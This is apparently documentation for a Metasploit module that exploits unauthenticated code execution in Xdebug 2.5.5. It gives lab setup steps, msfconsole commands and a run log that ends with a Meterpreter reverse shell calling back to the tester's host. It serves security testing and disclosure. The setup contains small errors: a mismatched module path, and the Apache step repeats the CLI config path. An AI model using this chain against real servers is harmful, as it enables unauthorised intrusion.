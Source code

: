 ## Vulnerable Application

[Xdebug](https://xdebug.org/docs-dbgp.php) is an actively-maintained PHP debugging tool that supports remote debugging of server-side PHP code

This module exploits an unauthenticated vulnerability that allows for the upload of a PHP file and subsequent execution to provide a Meterpreter session back.  The module was tested on XDebug version 2.5.5

The vulnerability was discovered by [Ricter Zheng](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface) (WARNING: This link is in Chinese.  [Google Translate version](https://translate.google.com/translate?hl=en&sl=auto&tl=en&u=https%3A%2F%2Fricterz.me%2Fposts%2FXdebug%3A%20A%20Tiny%20Attack%20Surface))


### Setting up XDebug 2.5.5 on xUbuntu 16.04 x64 Desktop

Start with a LAMP server:

```
sudo apt update && sudo apt install -y tasksel
sudo tasksel install lamp-server
```

Now grab XDebug, specifically the version cited by @MinatoTW:
```
wget https://xdebug.org/files/xdebug-2.5.5.tgz
tar xvzf xdebug-2.5.5.tgz 
cd xdebug-2.5.5/
php -i
```

Paste the contents of your `php -i` output into [the XDebug installation wizard](https://xdebug.org/wizard.php), which gave me the following:

```
sudo apt install -y php7.0-dev
phpize && ./configure && make
sudo cp modules/xdebug.so /usr/lib/php/20151012/
```

The final step of the wizard is to configure `php.ini`:

```
sudo -s
cat >> /etc/php/7.0/cli/php.ini <<EOL
zend_extension = /usr/lib/php/20151012/xdebug.so
xdebug.remote_enable = 1
xdebug.remote_handler = dbgp
xdebug.remote_autostart = 0
xdebug.remote_connect_back = 1
xdebug.remote_port = 9000
xdebug.remote_host = 127.0.0.1
xdebug.profiler_enable=0
xdebug.profiler_enable_trigger=1
xdebug.profiler_output_dir="/tmp"`
EOL
exit
```

Now that the PHP CLI environment is configured, repeat the above steps for the Apache2 configuration:

```
sudo -s
cat >> /etc/php/7.0/cli/php.ini <<EOL
zend_extension = /usr/lib/php/20151012/xdebug.so
xdebug.remote_enable = 1
xdebug.remote_handler = dbgp
xdebug.remote_autostart = 0
xdebug.remote_connect_back = 1
xdebug.remote_port = 9000
xdebug.remote_host = 127.0.0.1
xdebug.profiler_enable=0
xdebug.profiler_enable_trigger=1
xdebug.profiler_output_dir="/tmp"`
EOL
exit
```

And restart Apache2 for good measure:
```
sudo service apache2 restart
```

And now test that XDebug is working:
```
php -r 'echo xdebug_time_index();'; echo
```

You should see a fairly small number, in my case `4.6014785766602E-5`, which indicates the number of seconds since the php script started, thus the incredibly small number.


## Verification Steps

- Start `msfconsole`
- `use exploits/unix/http/xdebug_rce`
- `check`
- `set RHOST 192.168.69.2`
- `set LHOST 192.168.69.1`
- `set VERBOSE true` (optional)
- `exploit`

## Scenarios

### XDebug 2.5.5 on Ubuntu 16.04 with Apache2 2.4.18

msf5 exploit(unix/http/xdebug_unauth_exec) > check

[*] 192.168.69.2:80 - Request sent
Date: Fri, 27 Apr 2018 21:00:37 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: XDEBUG_SESSION=WIO6hf4Wez; expires=Fri, 27-Apr-2018 22:00:37 GMT; Max-Age=3600; path=/
Content-Length: 16
Content-Type: text/html; charset=UTF-8


[+] 192.168.69.2:80 - Looks like remote server has xdebug enabled

[*] 192.168.69.2:80 The target service is running, but could not be validated.


msf5 exploit(unix/http/xdebug_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.168.69.1:4444
[*] 192.168.69.2:80 - Waiting for client response.
[*] 192.168.69.2:80 - Receiving response
508<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/index.php" language="PHP" xdebug:language_version="7.0.28-0ubuntu0.16.04.1" protocol_version="1.0" appid="28166" idekey="5Gg6S9au8B"><engine version="2.5.5"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2017 by Derick Rethans]]></copyright></init>
[*] 192.168.69.2:80 - Shell might take upto a minute to respond.Please be patient.
[*] 192.168.69.2:80 - Sending payload of size 2098 bytes
[*] Sending stage (37775 bytes) to 192.168.69.2
[*] Meterpreter session 1 opened (192.168.69.1:4444 -> 192.168.69.2:55506) at 2018-04-27 15:57:58 -0500
[+] 192.168.69.2:80 - Deleted /tmp/OLEaK

